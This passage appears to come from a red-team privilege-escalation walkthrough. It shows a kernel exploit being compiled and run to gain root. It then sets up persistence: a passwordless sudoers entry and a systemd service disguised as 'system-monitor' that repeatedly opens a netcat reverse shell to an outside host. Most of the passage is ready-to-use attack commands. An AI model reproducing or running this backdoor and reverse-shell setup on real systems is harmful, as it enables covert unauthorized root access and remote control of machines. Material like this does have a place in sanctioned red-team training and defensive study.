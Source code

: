 4. **Third Attempt (Alternative) - Kernel Exploit**:
   ```bash
   # If SUID binary wasn't available, we had a backup plan
   # LES identified an OverlayFS vulnerability
   
   # Deployed the kernel exploit
   gcc -o ovlexp overlayfs_exploit.c
   chmod +x ovlexp
   ./ovlexp
   
   # Succeeded in getting full root access
   id
   # uid=0(root) gid=0(root) groups=0(root)
   ```

5. **Establishing Persistence**:
   ```bash
   # After gaining root, created a backdoor
   echo 'developer ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers.d/developer
   chmod 440 /etc/sudoers.d/developer
   
   # Created a startup service for persistence
   cat > /etc/systemd/system/system-monitor.service << EOF
   [Unit]
   Description=System Monitor Service
   After=network.target
   
   [Service]
   Type=simple
   ExecStart=/usr/local/bin/sysmonitor
   Restart=always
   
   [Install]
   WantedBy=multi-user.target
   EOF
   
   # Created backdoor script
   cat > /usr/local/bin/sysmonitor << EOF
   #!/bin/bash
   while true; do
     sleep 300
     nc -e /bin/bash 10.10.14.42 4444 &
   done
   EOF
   
   chmod +x /usr/local/bin/sysmonitor
   systemctl enable system-monitor
   systemctl start system-monitor
   ```

This example demonstrates the importance of having multiple privilege escalation techniques prepared. When one method fails, others can be attempted, increasing the likelihood of success during red team operations.
